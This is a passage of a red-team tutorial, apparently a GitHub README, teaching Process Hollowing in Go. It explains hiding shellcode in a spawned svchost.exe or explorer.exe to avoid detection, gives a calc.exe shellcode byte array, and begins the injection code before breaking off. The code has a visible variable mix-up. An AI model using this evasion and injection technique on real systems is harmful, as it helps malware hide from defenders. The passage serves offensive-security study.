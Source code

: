 # Explanation

During red team operations, it is better to perform as much operations as possible in memory, without touching the disk. To achieve so, we have to take action in order to make sure that we are not discovered. This is where Process Hollowing comes into play as it allows us to execute shellcode or a PE (Portable Executable) without spawning a suspicious process which performs weird system calls. This is one the main reasons why this technique has been used by a bunch of APTs and famous tools.

Generally, Process Hollowing is mostly used to run a PE under other process. Even though, today we will see how to do it directly with shellcode as it is way much easier. Indeed, we will be using a `calc.exe` shellcode for testing purposes and we will also see that the `calc.exe` process is launched as a child of the process we select.

In this case our shellcode is ```var shellcode []byte = []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc}```

First of all, we have to create the process in which we will inject later the shellcode. For instance, a good process to choose is `svchost.exe` or `explorer.exe` as there usually are multiple processes running in the system.

Then we use `ZwQueryInformationProcess` to get info about the process we have created and also to parse the PROCESS_BASIC_INFORMATION struct and find the PebBaseAddress. Finally we end up computing the EntryPoint address, where we will write our shellcode

# Code

As always, we will doing this in Golang. We can start by loading the DLLs and defining variables:

```go
func ProcessHollowing(shellcode []byte, cmd string) error {
  // load DLLs
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  ntdll := windows.NewLazyDLL("ntdll.dll")

  // define calls
  CreateProcessA := kernel32.NewProc("CreateProcessA")
  ReadProcessMemory := kernel32.NewProc("ReadProcessMemory")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  ResumeThread := kernel32.NewProc("ResumeThread")
  ZwQueryInformationProcess := ntdll.NewProc("ZwQueryInformationProcess")

  // define parameters
  var pbi PROCESS_BASIC_INFORMATION
  si:= &windows.StartupInfo{}
  pi := &windows.ProcessInformation{}
  cmd := append([]byte(proc), byte(0))

/*

BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
```